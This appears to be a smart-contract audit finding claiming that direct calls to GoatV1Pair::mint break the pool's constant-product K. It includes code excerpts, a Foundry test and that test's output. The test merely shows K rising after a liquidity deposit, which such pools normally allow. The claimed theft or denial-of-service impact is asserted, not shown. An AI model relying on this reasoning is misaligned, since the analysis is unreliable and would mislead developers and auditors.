 Agreeable Aquamarine Dog

high

# Breakage of K Invariant

## Summary
The K invariant, which is meant to remain constant, is susceptible to alteration, rendering it no longer invariant.

## Vulnerability Detail

The Constant Product invariant assumes X*Y=k, where X and Y are the supply of tokens in a pool and k is the invariant.

But it's possible to change this K value calling `GoatV1Pair::mint` with specific values, if the pool is in `AMM mode`.
## Impact

A malicious actor possesses the capability to manipulate the K value of the pool at will, thereby enabling the theft of assets or facilitating a denial-of-service (DoS) attack on the liquidity pool.

## Code Snippet
[https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L114-L174](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L114-L174)

## Proof of concept

A user, let say Alice, can mint LPs directly on the `GoatV1Pair` contract without using the `GoatRouterV1` contract. But Alice can send arbytrary amount of assets, get LPs based on the minimum of the two assets, and thus, the reserves will be updated based on the amount of assets send. 

Consequently, when the `K value` is recalculated, this **invariant** value gets altered.



### Here are the most important parts of code in the `mint` function:

1. Cache new asset balances into variables:
```solidity
uint256 balanceEth = IERC20(_weth).balanceOf(address(this));
uint256 balanceToken = IERC20(_token).balanceOf(address(this));
```

2. Calculate the LPs liquidity returned to the minter based on the minimum ratio of the two assets:
```solidity
amountWeth = balanceEth - reserveEth - _pendingLiquidityFees - _pendingProtocolFees;
amountToken = balanceToken - reserveToken;
liquidity = Math.min((amountWeth * totalSupply_) / reserveEth, (amountToken * totalSupply_) / reserveToken);
```

3. Update reserves with the cached values:
```solidity
_update(balanceEth, balanceToken, true);
```

As evident from the code, the reserves are updated based on the assets sent to the contract, without strict adherence to predetermined rules or constraints.

In the context of `AMM` mode, the calculation of the K invariant is performed as follows:

```solidity
(_reserveEth, _reserveToken) = pair.getStateInfoAmm();

uint256 KAfterAliceDeposit = uint256(_reserveEth) * uint256(_reserveToken);
```

### Foundry test

The following test can be added to `GoatV1Pair.t.sol`.

```js
function test_H1_KInvariantBreakInMint() public {
        address Alice = makeAddr("Alice");
        _fundMe(goat, Alice, 100 ether);
        _fundMe(weth, Alice, 100 ether);


        address Bob = makeAddr("Bob");
        _fundMe(goat, Bob, 100 ether);
        _fundMe(weth, Bob, 100 ether);


        // note: Pair creation
        GoatTypes.InitParams memory initParams;
        initParams.virtualEth = 10e18;
        initParams.initialEth = 10e18;
        initParams.initialTokenMatch = 1000e18;
        initParams.bootstrapEth = 10e18;

        //note: Set Pair into AMM on the first deposit
        (, uint256 tokenAmtForAmm) = _mintInitialLiquidity(initParams, users.lp);
        // since reserve eth will be 10e18 and reserveToken will be 250e18
        // sqrt of their product = 50e18
        uint256 expectedLp = 50e18 - MINIMUM_LIQUIDITY;
        uint256 initialLpBalance = pair.balanceOf(users.lp);
        assertEq(initialLpBalance, expectedLp);
        (uint256 reserveEth, uint256 reserveToken) = pair.getReserves();

        assertEq(reserveEth, initParams.bootstrapEth);
        assertEq(reserveToken, tokenAmtForAmm);

        uint256 vestingUntil = pair.vestingUntil();
        assertEq(vestingUntil, block.timestamp + _VESTING_PERIOD);

        uint112 _reserveEth;
        uint112 _reserveToken;

        (_reserveEth, _reserveToken) = pair.getStateInfoAmm();
        uint256 KBeforeAliceDeposit = uint256(_reserveEth) * uint256(_reserveToken);

        //note: console.log after first LP mint
        console.log("K before malicious Alice deposit : ", KBeforeAliceDeposit);
        console.log(" ");

        //note: get out of the vesting periode
        vm.warp(block.timestamp + 8 days); 

        //note: Alice deposit weth and goat so it break k invariant
        vm.startPrank(Alice);
        weth.transfer(address(pair), 1 ether);
        goat.transfer(address(pair), 1 ether);

        pair.mint(Alice);
        vm.stopPrank();

        (_reserveEth, _reserveToken) = pair.getStateInfoAmm();
        uint256 KAfterAliceDeposit = uint256(_reserveEth) * uint256(_reserveToken);

        console.log("K after malicious Alice deposit :  ", KAfterAliceDeposit);

        console.log("K value never change : ", KBeforeAliceDeposit == KAfterAliceDeposit);
    }
```

```bash
$ forge test --match-path test/foundry/exchange/GoatV1Pair.t.sol --match-test test_H1_KInvariantBreakInMint -vvv

Ran 1 test for test/foundry/exchange/GoatV1Pair.t.sol:GoatExchangeTest
[PASS] test_H1_KInvariantBreakInMint() (gas: 3887028)

Logs:
  K before malicious Alice deposit :  2500000000000000000000000000000000000000
   
  K after malicious Alice deposit :   2761000000000000000000000000000000000000

  K value never change :  false
```

## Tool used

Manual analysis

Foundry tests

## Recommendation

Restrict the invocation of the `GoatV1Pair::mint` function solely to the `GoatRouterV1` contract. 

Additionally, consider implementing a require statement for more efficient gas usage.
